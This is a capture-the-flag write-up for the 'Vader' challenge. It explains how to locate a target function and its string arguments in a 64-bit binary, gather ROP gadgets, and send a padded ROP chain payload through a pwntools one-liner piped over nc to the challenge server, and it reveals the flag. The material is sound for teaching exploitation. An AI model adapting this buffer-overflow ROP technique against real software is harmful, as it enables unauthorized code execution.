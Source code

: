 # Vader

We are given a binary where we need to print flag.txt

If we open the file with Ghidra we can see that the executable is in the function Vader() which takes four pointers as arguments and compares them to "DARK" => "S1D3"=> "OF" => "TH3" => "FORC3" We need to make a code that takes us to that function passing those arguments

The binary is x64 bit so we need 16 bit addresses.

We found the padding to be 40 characters.

Using readlf we can find Vader()

```
readelf -s vader
```

> 46: 000000000040146b   330 FUNC    GLOBAL DEFAULT   14 vader

We need to go to that address but we still need to pass the arguments, if we see the binary in ghidra we can find the addresses of the strings that contain the comparations, we can use them as the arguments

 - "DARK" => 0x00402ec9
 - "S1D3"=> 0x00402ece
 - "OF" => 0x00402ed3
 - "TH3" => 0x00402ed6
 - "FORC3"0x00402eda

We also need to find the gadgest that follow the correct format for x64 binaries:

The format is RDI, RSI, RDX, RCX, R8, R9

We can use ```ropr``` to see the address where each register is dropped

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Space%20Heroes/regs.png)

pop_rdi = 0x0040165b
pop_rsi = 0x00401659; r15 (We just need to add p64(0) after the second argument)
pop_rcx = (0x004011cd) pop_rdx; pop_rcx (Because they are in this order we can use them but we need to flip the arguments)
pop_r8 = 0x004011d9
vader function = 0x40146b

Now we have all the info that we need, we can construct the payload like

padding + pop_rdi + 0x00402ec9("DARK") + pop_rsi + 0x00402ece("S1D3") + JUNK + pop_rcx + 0x00402ed6("TH3") + 0x00402ed3("OF") + pop_r8 + 0x00402eda("FORC3") + 0x40146b(vader)

## Final payload

```
python2 -c "from pwn import *; print 'A' * 40 + p64(0x0040165b) + p64(0x00402ec9) + p64(0x00401659) + p64(0x00402ece) + p64(0) + p64(0x004011cd) + p64(0x00402ed6) + p64(0x00402ed3) + p64(0x004011d9) + p64(0x00402eda) + p64(0x40146b)" | nc 0.cloud.chals.io 20712
```

## Flag
> shctf{th3r3-1s-n0-try}
